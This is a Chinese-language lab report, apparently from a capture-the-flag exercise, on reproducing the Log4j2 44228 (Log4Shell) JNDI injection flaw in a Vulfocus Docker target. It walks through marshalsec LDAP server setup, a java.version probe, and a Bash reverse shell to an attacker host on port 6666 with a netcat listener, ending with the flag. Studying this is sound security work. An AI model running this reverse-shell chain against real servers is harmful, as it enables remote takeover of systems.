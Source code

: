 # 实验报告：Log4j2 44228漏洞环境搭建、漏洞验证与漏洞利用复现
## 一、实验目的
    搭建Log4j2 44228漏洞环境。
    验证漏洞的存在。
    利用漏洞获得flag

## 二、实验环境

### 操作系统：
1. Kali Linux
2. Java版本：JDK 1.8.0 202
3. Log4j2:
4. 测试工具：JNDI injector

## 三、实验步骤
### （一）漏洞环境搭建

    安装Java环境,下载并安装JDK1.8.0,验证java版本。
![alt text](./images/1742744070291.png)

    使用docker pull vulfocus/vulfocus:latest，编写vulfocus启动脚本,-d 是后台运行
![alt text](./images/1742744257111.png)


    赋予执行权限之后就可以运行这个脚本启动了
![alt text](./images/1742744336569.png)

    去镜像管理界面点击一键同步，搜索log4j2找到远程命令执行漏洞2，点击下载
![alt text](./images/1742744422165.png)


### （二）漏洞验证
    去首页启动该镜像，记住映射端口号
![alt text](./images/1742744483519.png)

    在浏览器中输入靶机网址：端口号，显示网页
![alt text](./images/1742744591379.png)

    在攻击者主机安装ldap server，编写启动脚本
1. marshalsec-0.0.3-SNAPSHOT-all.jar是反序列化利用工具
2. maeshalsec.jndi.LDAPRefServer用于启动LDAP服务
3. 指定恶意类的 URL 为"https://192.168.56.104:8080/#Exploit"
![alt text](./images/1742744780450.png)

    这个ldap服务器是用于在目标主机出发jndi查询的时候返回一个http的引用，运行这个名字叫Exploit的java类
![alt text](./images/1742745347748.png)

    记住这个端口，构造payload，并使用url对其编码
![alt text](./images/1742745406763.png)

    复制编码，将其粘贴到payload=后面，并访问，显示ok
![alt text](./images/1742745504247.png)

    攻击者主机上面显示了查询记录，http上没有任何记录，Exploit类没有被目标主机运行。首先java版本可能禁止了远程代码运行，还有可能ldap服务器没建好，导致对http的引用只是做做样子。
    这并不能验证log4j2漏洞存在，但我们可以利用这个查询记录功能
![alt text](./images/1742745549186.png)

    构造一个带有test.${java.version}的payload，并将其用url编码，这个部分如果被执行，则会得到目标主机的java版本，然后会通过查询记录的方式显示到攻击者主机上。
![alt text](./images/1742799657079.png)

    访问后攻击者主机上显示了带有java版本的查询记录，这表示目标主机解析了url编码，运行了java.version，并在攻击者主机上留下了记录，可以验证漏洞存在
![alt text](./images/1742799685712.png)

    


### （三）漏洞利用复现
    安装JNDI-Injection，编写启动脚本，赋予权限。
1. 带有-SNAPSHOT-all.jar的是反序列化利用工具
2. -C 后面接的是想运行的代码的base64编码 bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
3. bash -i是启动一个交互式的bash shell，-i意思是interactive
4. \>& 是重定向操作符，用于将标准输出和标准错误

![alt text](./images/1742745720813.png)

    启动脚本，选择trustURLCodebase is false的那项
![alt text](./images/1742745749391.png)

    使用nc -lvvp 6666监听6666端口
![alt text](./images/1742745903162.png)

    构造payload
![alt text](./images/1742745926937.png)

    拿到shell
![alt text](./images/1742745978450.png)

    在tmp文件夹中找到flag
![alt text](./images/1742746026757.png)

